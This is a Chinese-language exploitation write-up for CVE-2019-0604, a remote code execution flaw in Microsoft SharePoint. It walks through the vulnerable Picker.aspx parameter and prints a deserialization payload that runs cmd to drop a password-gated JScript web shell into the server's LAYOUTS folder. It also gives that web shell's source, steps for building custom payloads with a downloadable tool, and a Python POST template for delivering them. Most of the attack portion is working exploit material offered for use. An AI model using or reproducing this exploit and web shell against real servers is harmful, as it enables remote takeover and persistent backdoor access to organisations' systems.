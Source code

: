 （CVE-2019-0604）Microsoft SharePoint 远程代码执行漏洞
======================================================

一、漏洞简介
------------

Microsoft
SharePoint是美国微软（Microsoft）公司的一套企业业务协作平台。该平台用于对业务信息进行整合，并能够共享工作、与他人协同工作、组织项目和工作组、搜索人员和信息。

Microsoft SharePoint
远程代码执行漏洞（CVE-2019-0594、CVE-2019-0604，高危）：Microsoft
SharePoint软件无法检查应用程序包源标记时触发该漏洞。攻击者可在SharePoint应用程序池和SharePoint服务器中执行任意代码。

二、漏洞影响
------------

Microsoft SharePoint Enterprise Server 2016SharePoint Foundation 2013 SP1harePoint Server 2010 SP2SharePoint Server 2019

三、复现过程
------------

ItemPicker Web 控件实际上从来没有在一个 .aspx
页面中使用过。但是看看它基类型的用法，EntityEditorWithPicker，说明在
/\_layouts/15/Picker.aspx 应该有一个 Picker.aspx 文件使用了它。

该页面要求使用选择器对话框的类型通过 URL 的 PickerDialogType
参数的形式提供。在这里，可以使用以下两种 ItemPickerDialog
类型中的任何一种：

    · Microsoft.SharePoint.WebControls.ItemPickerDialog in             Microsoft.SharePoint.dll
    · Microsoft.SharePoint.Portal.WebControls.ItemPickerDialog in Microsoft.SharePoint.Portal.dll

利用第一种 PickerDialogType 类型

当表单提交 ctl00\$PlaceHolderDialogBodySection\$ctl05\$hiddenSpanData
的值以 "\_\_" 为开头时(类似于"\_dummy")，

EntityInstanceIdEncoder.DecodeEntityInstanceId(string)
处的断点将显示以下情况：而调用另外一种 ItemPickerDialog
类型时，函数调用栈只是在最上面的两个有所不同。

这表明 ctl00\$PlaceHolderDialogBodySection\$ctl05\$hiddenSpanData
的数据最终出现在了
EntityInstanceIdEncoder.DecodeEntityInstanceId(string) 中。
剩下的只需要拷贝实例 ID 和构造一个 XmlSerializer 的 payload 就可以了。

**完整POST以及具体参数如下：**

URL：`/Picker.aspx?PickerDialogType=控件的程序集限定名`

参数：
`ctl00%24PlaceHolderDialogBodySection%24ctl05%24hiddenSpanData=payload`

实际上还需访问Picker.aspx附带的其它参数，测试我不附带其它参数时提交表单是失败的。

poc
---

> https://download.0-sec.org/Web安全/Microsoft
> SharePoint/CVE20190604-Payload.7z

**解说k8gege的cve-2019-0604-exp.py**

老实说k8gege的py脚本有点花哨，一大堆的16进制字符串，分成 payload1,2,3,
好坏呀

python脚本远程post的payload,反序列化之后是一个xml数据体

    <ResourceDictionary
    xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
    xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
    xmlns:System="clr-namespace:System;assembly=mscorlib"
    xmlns:Diag="clr-namespace:System.Diagnostics;assembly=system">
    <ObjectDataProvider x:Key="LaunchCalch" ObjectType="{x:Type Diag:Process}" MethodName="Start">
        <ObjectDataProvider.MethodParameters>
            <System:String>cmd</System:String>
            <System:String>/c echo ^<%@ Page Language="Jscript" %^>^<%var pwd="tom";var uastr=Request.UserAgent;if (uastr.Substring(0, uastr.IndexOf("==="))== pwd) {var code=uastr.Replace(pwd+"===","");eval(code,"unsafe"); };%^> > "%CommonProgramFiles%\\Microsoft Shared\\Web Server Extensions\\15\\TEMPLATE\\LAYOUTS\\ua.aspx" </System:String>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
    </ResourceDictionary>

![3.png](resource/(CVE-2019-0604)MicrosoftSharePoint远程代码执行漏洞/media/rId25.png)

即远程执行echo命令，向服务器SharePoint的模板layouts目录写了一个up.aspx文件

    cmd /c echo ^<%@ Page Language="Jscript" %^>^<%var pwd="tom";var uastr=Request.UserAgent;if (uastr.Substring(0, uastr.IndexOf("==="))== pwd) {var code=uastr.Replace(pwd+"===","");eval(code,"unsafe"); };%^> > "%CommonProgramFiles%\\Microsoft Shared\\Web Server Extensions\\15\\TEMPLATE\\LAYOUTS\\ua.aspx" 

生成了一个K8飞刀专用UA一句话木马.asxp，OK，shell到手

    <%@ Page Language="Jscript" %>
    <%
    var pwd="tom";
    var uastr=Request.UserAgent;
    if (uastr.Substring(0, uastr.IndexOf("==="))== pwd) 
    {
        var code=uastr.Replace(pwd+"===","");
        eval(code,"unsafe"); 
    };
    %>

### 结合k8的poc构造我们自己的payload

-   1、 下载编译好的程序，解压运行CVE20190604Forms.exe

-   2、在Cmd文本框加输入命令，点击"Update XML"按钮，会将命令合并为xml

-   3、点击"EncodeEntity"，程序将xml字符串序列化为对象，并触发执行payload,
    序列化后的字符串显示在\"payload\"文本框中

```{=html}
<!-- -->
```
    __cp087135009700370047005600d600e2004400160047001600e20035005600270067009600360056003700e2009400e600470056002700e6001600c600e2005400870007001600e60046005600460075002700160......

-   4、 \"\_\_cp\....\" 这些字符串就是payload了，复制到
    cve-2019-0604-exp.py中，修改替换掉原来k8的payload，

-   5、向Picker.aspx提交payload时，需要附带的其它参数，可通过Burp代理工具，获取一下相关的参数，再将payload值传给
    ctl00\$PlaceHolderDialogBodySection\$ctl05\$hiddenSpanData

```{=html}
<!-- -->
```
    ...

    values = {
        '__REQUESTDIGEST':YOUR_REQUESTDIGEST,
        '__EVENTTARGET':'',
        '__EVENTARGUMENT':'',
        '__spPickerHasReturnValue':'',
        '__spPickerReturnValueHolder':'',
        '__VIEWSTATE':YOUR_VIEWSTATE,
        '__VIEWSTATEGENERATOR':'',
        'ctl00$PlaceHolderDialogBodySection$ctl07$queryTextBox':'',
        'ctl00$PlaceHolderDialogBodySection$ctl05$hiddenSpanData':**YOUR_PayloadData**,
        'ctl00$PlaceHolderDialogBodySection$ctl05$OriginalEntities':'<Entities />',
        'ctl00$PlaceHolderDialogBodySection$ctl05$HiddenEntityKey':'',
        'ctl00$PlaceHolderDialogBodySection$ctl05$HiddenEntityDisplayText':'',
        'ctl00$PlaceHolderDialogBodySection$ctl05$downlevelTextBox':' ',
        '__CALLBACKID':'ctl00$PlaceHolderDialogBodySection$ctl07',
        '__CALLBACKPARAM':';#;#11;#;#;#',
        '__EVENTVALIDATION':YOUR_EVENTVALIDATION
    }

    data = urllib.urlencode(values)

    ...

-   6、运行py脚本, good luck!!!

参考链接
--------

> https://github.com/boxhg/CVE-2019-0604/
